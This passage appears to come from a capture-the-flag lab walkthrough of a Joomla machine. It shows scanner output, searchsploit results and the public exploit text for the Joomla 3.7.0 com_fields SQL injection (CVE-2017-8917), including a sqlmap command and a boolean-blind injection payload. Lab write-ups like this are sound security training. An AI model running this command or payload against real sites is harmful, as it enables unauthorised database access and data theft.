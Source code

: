 ```sh
[++] error log is not found        
[+] Checking sensitive config.php.x file
[++] Readable config files are not found

Your Report : reports/10.10.179.65/         
```

And with that we get the Joomla version. Also it is worth mentionning that the **hydra** attack attempt did not work: 

	- Me: maybe I did something wrong?
	- The voice in my head: Most likely.


[Task 2] Question #2: What is Jonah's cracked password?
-----------------------------------------------

If we search for joomla exploits for the version we found, we see there is a couple available:


```sh
┌──(kali㉿kali)-[~]
└─$ searchsploit joomla {REDACTED}
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! {REDACTED}- 'com_fields' SQL Injection                                                         | php/webapps/{REDACTED}.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                          | php/webapps/43488.txt
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The first one seems to be exactly for the version we have. Let's open it up to see what it is about:


```bash
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)
```